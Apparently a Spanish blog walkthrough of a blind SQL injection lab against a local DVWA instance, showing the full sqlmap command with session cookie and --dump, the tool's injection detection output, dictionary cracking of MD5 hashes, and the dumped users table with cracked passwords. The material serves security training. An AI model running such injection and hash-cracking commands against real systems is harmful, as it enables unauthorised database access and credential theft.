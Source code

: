 ```yaml
---
title: DVWA 
date: 2025-04-2 17:00:00 +0200
categories: [hacking, sqli] 
tags: [dvwa, sqli, sqlmap]     # TAG names should always be lowercase

image:
    path: https://github.com/digininja/DVWA/blob/master/dvwa/images/logo.png?raw=true
    alt: DVWA
---
```


## DVWA 

>Damn Vulnerable Web Application (DVWA) es una aplicación web PHP/MariaDB extremadamente vulnerable. Su objetivo principal es ayudar a los profesionales de la seguridad a poner a prueba sus habilidades y herramientas en un entorno legal, ayudar a los desarrolladores web a comprender mejor los procesos de seguridad de aplicaciones web y ayudar tanto a estudiantes como a profesores a aprender sobre seguridad de aplicaciones web en un entorno de clase controlado.

Más info sobre DVWA en [Hacktools/#vulnerable-machines](../hacktools/#vulnerable-machines)
Ahora vamos a realizar un ejemplo de injección sql_blind con la herramienta **sqlmap**, para que todo sea automático he puesto el flag __--batch__
Para el ejercicio he montado el docker con el archivo docker del proyecto de DVWA. 

``` shell
pablo☠office sqlmap$ ./sqlmap.py --url "http://192.168.2.125:8090/vulnerabilities/sqli_blind?id=1&Submit=Submit"  --cookie="PHPSESSID=fl7f8c1lva3pup4adt7djg46q1;security=low" --data="id=1&Submit=Submit" -p id  --risk 3 --level 5 --dump --batch
```
La seguridad está en "low" y la cookie podemos copiarla del navegador. 
Al parecer el parámetro id supone una entrada no sanitizada y permite este tipo de inyección SQL que un adversario
puede utilizar para extraer los datos de la base de datos.
sqlmap incluye una opción que le permite identificar y crackear passwords en md5 e incluye su propio diccionario.

Aquí es cuando Sqlmap [Hacktools/#sql-injection](../hacktools/#sql-injection-1)(descubre que el parámetro id parece inyectable usando la técnica de __boolean-based blind__ 
``` shell
[21:49:58] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[21:49:58] [INFO] GET parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="User ID exists in the database.")
[21:49:59] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL' 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
```

El proceso continua e incluso se consiguen las passwords de los usuarios. 
``` shell
do you want to crack them via a dictionary-based attack? [Y/n/q] Y
[21:51:04] [INFO] using hash method 'md5_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/home/pablo/pentest/web/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[21:51:04] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N
[21:51:04] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[21:51:04] [INFO] starting 4 processes 
[21:51:07] [INFO] cracked password 'abc123' for hash 'e99a18c428cb38d5f260853678922e03'                                                                                                                           
[21:51:09] [INFO] cracked password 'charley' for hash '8d3533d75ae2c3966d7e0d4fcc69216b'                                                                                                                          
[21:51:13] [INFO] cracked password 'letmein' for hash '0d107d09f5bbe40cade3de5c71e9e9b7'                                                                                                                          
[21:51:14] [INFO] cracked password 'password' for hash '5f4dcc3b5aa765d61d8327deb882cf99'                                                                                                                         
Database: dvwa                                                                                                                                                                                                    
Table: users
[5 entries]
+---------+---------+-----------------------------+---------------------------------------------+-----------+------------+---------------------+--------------+
| user_id | user    | avatar                      | password                                    | last_name | first_name | last_login          | failed_login |
+---------+---------+-----------------------------+---------------------------------------------+-----------+------------+---------------------+--------------+
| 3       | 1337    | /hackable/users/1337.jpg    | 8d3533d75ae2c3966d7e0d4fcc69216b (charley)  | Me        | Hack       | 2025-04-02 18:20:58 | 0            |
| 1       | admin   | /hackable/users/admin.jpg   | 5f4dcc3b5aa765d61d8327deb882cf99 (password) | admin     | admin      | 2025-04-02 18:20:58 | 0            |
| 2       | gordonb | /hackable/users/gordonb.jpg | e99a18c428cb38d5f260853678922e03 (abc123)   | Brown     | Gordon     | 2025-04-02 18:20:58 | 0            |
| 4       | pablo   | /hackable/users/pablo.jpg   | 0d107d09f5bbe40cade3de5c71e9e9b7 (letmein)  | Picasso   | Pablo      | 2025-04-02 18:20:58 | 0            |
| 5       | smithy  | /hackable/users/smithy.jpg  | 5f4dcc3b5aa765d61d8327deb882cf99 (password) | Smith     | Bob        | 2025-04-02 18:20:58 | 0            |
+---------+---------+-----------------------------+---------------------------------------------+-----------+------------+---------------------+--------------+

[21:51:20] [INFO] table 'dvwa.users' dumped to CSV file '/home/pablo/.local/share/sqlmap/output/192.168.2.125/dump/dvwa/users.csv'

```

Pues ya estaría. Te has pasado el ejercicio con un solo comando. Happy hacking!!!.